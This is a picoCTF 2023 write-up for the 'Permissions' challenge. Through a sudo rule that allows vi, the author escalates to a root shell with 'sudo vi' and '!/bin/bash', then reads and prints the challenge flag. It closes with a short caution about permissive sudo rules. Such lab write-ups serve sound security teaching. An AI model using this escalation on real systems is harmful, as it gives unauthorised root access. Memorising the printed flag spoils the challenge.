# Permissions

# Description

Can you read files in the root file?
Additional details will be available after launching your challenge instance.

# Solution

-  First off i use the given credentials for log in in the main server account  and i check out the permissions

``` bash
ssh -p 62697 picoplayer@saturn.picoctf.net
picoplayer@challenge:~$ 
sudo -l
[sudo] password for picoplayer: 
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi

```

- After i get to know the user permissions i use vi to get access to the root user  using the vi command mode 

```bash
sudo vi 
# on the vi command mode 
!/bin/bash
root@challenge:/home/picoplayer# 
```

- Finally  once I'm root user i change to the root directory and i  use the ```cat```  command to see the file content of the flag

```bash
cd /root/
ls -la
total 16
drwx------ 1 root root   22 Mar 16 20:56 .
drwxr-xr-x 1 root root   63 Mar 16 20:45 ..
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   35 Aug  4  2023 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
-rw------- 1 root root  558 Mar 16 20:56 .viminfo
cat .flag.txt
picoCTF{uS1ng_v1m_3dit0r_ad091ce1}
```
# Aditional notes

We need to be careful the programs permissions in special if they provide a command line interface that can access the bash or any other programming language like python
# References
- [Permissions (Writeup) | PicoCTF 2023](https://medium.com/@petemuiruri/permissions-writeup-picoctf-2023-be95c95f80a5)
